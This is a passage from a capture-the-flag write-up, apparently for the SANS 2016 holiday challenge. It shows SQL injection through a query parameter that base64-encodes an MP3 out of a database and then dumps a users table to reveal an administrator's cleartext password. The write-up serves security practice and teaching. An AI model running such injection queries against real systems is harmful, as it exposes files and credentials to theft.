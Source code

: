 The audio file name is disclosed but how to download it?  Let's think about this, it is possible to query and display text.  Why not try to convert the file to text? Base64 to the rescue!

`&query=SELECT id, filename, TO_BASE64(mp3) FROM audio WHERE filename='discombobulatedaudio7.mp3';`

![sqli_setup6](/assets/images/sans2016/sqli_setup10.png)

Copy the wall of text (the base64 encoded MP3 file), save it to a text file, and decode it locally.

`josh@MacBook-Pro /$ cat base64_encoded_audio.txt | base64 -D > discombobulatedaudio7.mp3`

That's it.

One last fun thing is to see what the administrator's password is in cleartext, because, why not? `&query=SELECT * FROM users;`

![sqli_setup6](/assets/images/sans2016/sqli_setup11.png)

